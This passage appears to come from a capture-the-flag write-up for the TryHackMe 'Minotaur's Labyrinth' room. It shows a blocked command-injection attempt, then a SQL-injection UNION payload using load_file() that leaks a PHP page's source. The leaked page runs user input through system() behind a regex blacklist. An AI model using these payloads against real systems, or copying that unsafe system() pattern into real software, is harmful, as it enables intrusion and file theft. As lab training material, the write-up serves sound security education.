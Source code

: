 Maybe it's vulnerable to **command injection**?? Let's give it a try:

**Input:**
```
&& ping -c 4 10.18.61.134
```

**Output:**
```
You really think this is gonna be possible i fixed this @Deadalus -_- !!!? 
```

Looks like there are some **filters** happening. Let's **combine with the SQL Injection** vulnerbility to see it's **source code**!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' UNION ALL SELECT NULL,NULL,load_file('/var/www/html/echo.php')-- -"

		[[{"idPeople":null,"namePeople":null,"passwordPeople":"<?php\ninclude('session.php');\n\n                if(isset($_SESSION['user'])){\n$user = $_SESSION['user'];\n$select = \"SELECT permissionPeople FROM people WHERE namePeople=:namePeople\";\n\n\ttry {\n\t\t$result = $conn->prepare($select);\n\n\n\t\t$result->bindParam(':namePeople', $user);\n\n\t\t\n\t\t$result->execute();\n\n        $all_rows = [];\n        while($row = $result->fetch(PDO::FETCH_ASSOC)) {\n        $all_rows[] = $row;\n        $pem =  json_encode($all_rows[0]); \n        if(strpos($pem, \"admin\") == false){\n            header(\"Location: index.php\");\n        }\n        }\n \n}\ncatch (PDOException $e) {\n    \/\/http_response_code(500);\n    echo json_encode(\n        array(\"message\" => \"Something went wrong:\" . $e->getMessage())\n    );\n}\n}\n?>\n\n<!DOCTYPE html>\n<html lang=\"de\">\n<title>Admin Pannel<\/title>\n<link href=\"\/\/maxcdn.bootstrapcdn.com\/bootstrap\/3.3.0\/css\/bootstrap.min.css\" rel=\"stylesheet\" id=\"bootstrap-css\">\n<script src=\"\/\/maxcdn.bootstrapcdn.com\/bootstrap\/3.3.0\/js\/bootstrap.min.js\"><\/script>\n<script src=\"\/\/code.jquery.com\/jquery-1.11.1.min.js\"><\/script>\n<link rel=\"icon\" type=\"image\/png\" sizes=\"16x16\" href=\"favicon.png\">\n\n<div class=\"container\" style=\"margin-top: 8%;\">\n    <div class=\"col-md-6 col-md-offset-3\">\n        <div class=\"row\">\n            <div id=\"logo\" class=\"text-center\">\n                <img src=\"imgs\/login.jpg\" width=\"300px\" \/>\n                <h4>Welcome to my secret echo-pannel...<\/h4>\n            <\/div>\n            <form role=\"form\" id=\"form-buscar\">\n                <div class=\"form-group\">\n                    <div class=\"input-group\">\n                        <input id=\"1\" class=\"form-control\" type=\"text\" name=\"search\" placeholder=\"echo something...\" required\/>\n                        <span class=\"input-group-btn\">\n<button class=\"btn btn-secondary\" type=\"submit\">\n<i class=\"glyphicon glyphicon-search\" aria-hidden=\"true\"><\/i> echo\n<\/button>\n<\/span>\n                    <\/div>\n                <\/div>\n            <\/form>\n            \n        <\/div>\n    <\/div>\n<\/div>\n\n<\/html>\n<?php\n             \n\n             if (isset($_GET['search'])){\n                $search = $_REQUEST['search']; \n                $command = \"bash -c 'echo \" . $search . \"'\"; \n                if($search==\"\") { \n                    echo \"<div class='col-md-5 col-md-offset-4 centered'>Your not gonna reach anythink with this !! <\/div>\"; \n                }elseif (preg_match('\/[#!@%^&*()$_+=\\\u00b0\\[\\]\\';,{}|\":>?~\\\\\\\\]\/', $search)) {\n                    echo \"<div class='col-md-5 col-md-offset-4 centered'>You really think this is gonna be possible i fixed this @Deadalus -_- !!!? <\/div>\"; \n                }\n             else { \n                system($command);\n             }\n             \n            }\n            ?>"}]]   
```

**Truncated PHP code:**
```php
<?php
             if (isset($_GET['search'])){
                $search = $_REQUEST['search']; 
                $command = \"bash -c 'echo \" . $search . \"'\"; 
                if($search==\"\") { 
                    echo \"<div class='col-md-5 col-md-offset-4 centered'>Your not gonna reach anythink with this !! </div>\"; 
                }elseif (preg_match('/[#!@%^&*()$_+=\°\[\]\';,{}|\":>?~\\\\]/', $search)) {
                    echo \"<div class='col-md-5 col-md-offset-4 centered'>You really think this is gonna be possible i fixed this @Deadalus -_- !!!? </div>\"; 
                }
             else { 
```